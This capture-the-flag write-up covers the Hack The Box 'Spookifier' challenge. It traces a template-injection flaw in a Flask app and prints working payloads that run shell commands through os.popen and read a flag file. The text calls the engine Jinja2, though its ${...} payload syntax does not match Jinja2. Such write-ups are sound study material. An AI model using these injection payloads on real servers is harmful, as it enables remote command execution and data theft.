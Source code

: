 ```yaml
---
title: Spookifer - Hack The Box
date: 2024-10-19
---
```


# Spookifier

![Spookifier](/ctf/hack-the-box/challenges/web/spookifier/spookifier.png)

## Challenge Description

In this challenge, we need to exploit a web application called **Spookifier**. The application is a Single Page
Application (SPA), featuring a form in the center of the page where users can submit their new Halloween name. After
submitting the form with the input `Dracula`, the application displays the result with different fonts, as shown below:

![Spookifier result of Dracula input](/ctf/hack-the-box/challenges/web/spookifier/spookifier-result-dracula.png)

## Code Review

Upon inspecting the source code of the application, we discovered that the backend is built using **Flask** in Python.
When a user submits the form, a GET request is sent to the root endpoint (`/`) with the submitted Halloween name passed
as a query parameter (`text`).

The server processes this input by calling a function named `spookify`, which then passes the input to another function
responsible for generating the formatted result. The function `generate_render` generates the final output, and its
implementation is as follows:

```python
def generate_render(converted_fonts):
    result = '''
        <tr>
            <td>{0}</td>
        </tr>
        
        <tr>
            <td>{1}</td>
        </tr>
        
        <tr>
            <td>{2}</td>
        </tr>
        
        <tr>
            <td>{3}</td>
        </tr>
    '''.format(*converted_fonts)
    
    return Template(result).render()
```

The `generate_render` function uses the `Template` class from the **Jinja2** templating engine to render the final
output. This indicates a potential vulnerability, as improper input sanitization can lead to a **Server-Side Template
Injection (SSTI)** attack.

## Proof of Concept (PoC)

To verify the SSTI vulnerability, we can inject a basic payload like `${7*7}` into the `text` parameter. If the
application is vulnerable, it will evaluate the expression and return the result of the calculation.

After injecting the payload, the server responded with the following output:

![Spookifier - POC](/ctf/hack-the-box/challenges/web/spookifier/spookifier-poc-ssti.png)

The result `49` confirms that the application is vulnerable to SSTI.

## Exploitation

Since we have access to the source code, we know that the flag is stored in a file named `flag.txt`. To exploit the SSTI
vulnerability and read the flag, we first need to determine the current working directory by executing the `pwd`
command. We can use the following payload:

```python
${__import__('os').popen('pwd').read()}
```

The output revealed that the current directory is `/app`, meaning we need to go up one level to access the `flag.txt`
file. The following payload reads the content of the file:

```python
${__import__('os').popen('cat ../flag.txt').read()}
```

The result shows the flag:

```
HTB{f4k3_fl4g_f0r_t3st1ng}
```

We successfully retrieved the flag! You can now try this on the actual Hack The Box (HTB) server to obtain the real
flag.

![Spookifier - Flag](/ctf/hack-the-box/challenges/web/spookifier/spookifier-pwned.png)

## References

- [HackTricks - Jinja2 SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti#jinja-injection)

